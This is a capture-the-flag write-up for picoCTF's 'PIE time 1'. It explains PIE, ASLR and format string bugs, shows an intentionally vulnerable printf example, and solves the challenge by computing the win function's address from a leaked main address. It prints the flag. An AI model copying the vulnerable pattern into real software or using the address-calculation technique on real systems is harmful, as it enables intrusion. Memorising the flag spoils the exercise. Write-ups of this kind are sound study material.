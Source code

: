 # PicoCTF: PIE time 1

## Context

We are provided with a compiled binary and the source code (`vuln` and `vuln.c`), as well as a complimentary server and port to connect to via netcat. We only connect via netcat when we are ready to get the flag. 

When we do `./vuln` we are prompted to enter an address. If the address is not correct, we segfault:
```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

## Background Information: PIE executables and format string vulnerabilities

Executables can come in different forms, notably PIE (position independent executable) and no-PIE. If we compile a PIE executable, it means that that whole chunk of code for the program can be placed anywhere in memory. This enables ASLR (address space layout randomization) which randomizes the memory address of key components of our program, like where its stack, heap, etc. begin. A no-PIE executable's code will be placed at a fixed address. That means that we cannot use ASLR.

Below, I've provided examples of objdumped PIE and no-PIE executables. Note how the no-PIE executable starts at address 0x401000, while the PIE executable starts at 0x1000 so it's able to placed at a random memory address later.

``` text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-no-pie

main-no-pie:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:       f3 0f 1e fa             endbr64 
  401004:       48 83 ec 08             sub    $0x8,%rsp
  401008:       48 8b 05 e9 2f 00 00    mov    0x2fe9(%rip),%rax        # 403ff8 <__gmon_start__@Base>
  40100f:       48 85 c0                test   %rax,%rax
  401012:       74 02                   je     401016 <_init+0x16>
  401014:       ff d0                   call   *%rax
  401016:       48 83 c4 08             add    $0x8,%rsp
  40101a:       c3                      ret
...

```

```text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-dyn

main-dyn:     file format elf64-x86-64


Disassembly of section .init:

0000000000001000 <_init>:
    1000:       f3 0f 1e fa             endbr64 
    1004:       48 83 ec 08             sub    $0x8,%rsp
    1008:       48 8b 05 d9 2f 00 00    mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__@Base>
    100f:       48 85 c0                test   %rax,%rax
    1012:       74 02                   je     1016 <_init+0x16>
    1014:       ff d0                   call   *%rax
    1016:       48 83 c4 08             add    $0x8,%rsp
    101a:       c3                      ret
  ...

```

A format string vulnerability takes advantage of C's `printf(...)` to leak memory addresses. For example, if a program asks for user input and then prints that input back to the user using `printf(...)`, the user can supply a format string (`%s`, `%lx`, `%p`, etc.) so that their provided information gets printed in that form. Note that this is only possible when the `printf(...)` function **does not** already have a format string specifier. See the example below from OWASP.

``` C
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```
`./example "Hello World %p %p %p %p %p %p"` will result in: `Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC`.

## Vulnerability

Recall that we are prompted to enter an address:

```text
mms2379@spoc:~/ctf/pie_time$ ./vuln
Address of main: 0x58e94163433d
Enter the address to jump to, ex => 0x12345: 0x0
Your input: 0
Segfault Occurred, incorrect address.
```

Note that we are given the address of the `main` function. We may take a closer look at the source code. We see that we have a `main()` function and a `win` function that is not called anywhere in the program. We also see that `win` will give us our flag. (Full source code can be found in `pie_time1/vuln.c`)

```C
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
  ...
```

Therefore, we conclude that we must somehow call the `win` function in order to get our flag. If this were a no-PIE exectuable, then we could just enter the address of the `win` function. Unfortunatley, `vuln` is a PIE executable:

```
mms2379@spoc:~/ctf/pie_time$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0072413e1b5a0613219f45518ded05fc685b680a, for GNU/Linux 3.2.0, not stripped
```

This means that we will have to calculate the address of `win` based on some other address. Recall that we are given the address of `main`. Therefore, we conclude that we must use the address at `main` to call `win`.

## Exploitation 

Taking a look at the disassembly of `vuln`, we can manually calculate the distance in memory between `win` and `main`. (See `pie_time1/vuln_dump.txt` for the full disassembly)

```text
00000000000012a7 <win>:
    12a7:	f3 0f 1e fa          	endbr64 
    12ab:	55                   	push   %rbp
    12ac:	48 89 e5             	mov    %rsp,%rbp
	...

000000000000133d <main>:
    133d:	f3 0f 1e fa          	endbr64 
    1341:	55                   	push   %rbp
    1342:	48 89 e5             	mov    %rsp,%rbp
	...
```

The difference in hex between 0x12a7 and 0x133d is 0x96. So now, every time we execute `vuln` and get our address for `main`, we may simply calculate `main` - 0x96 = address to jump to:

```text
mms2379@spoc:~/ctf/pie_time$ nc rescued-float.picoctf.net 54738
Address of main: 0x5bee3664233d
Enter the address to jump to, ex => 0x12345: 0x5bee366422a7
Your input: 5bee366422a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_a267144a}
```

## Remediation

The remediation for this is pretty simple: don't give out addresses in PIE executables! The whole point of PIE is to enable ASLR and make it **harder** to infiltrate, but by providing a reference address and source code, it can be easy to calculate the addresses of other functions and get to whatever function you'd like.

# Sources/Credits

Written by Madalina Stoicov

- https://owasp.org/www-community/attacks/Format_string_attack
- https://cs4157.github.io/www/2025-1/lect/17-linking-2.html 
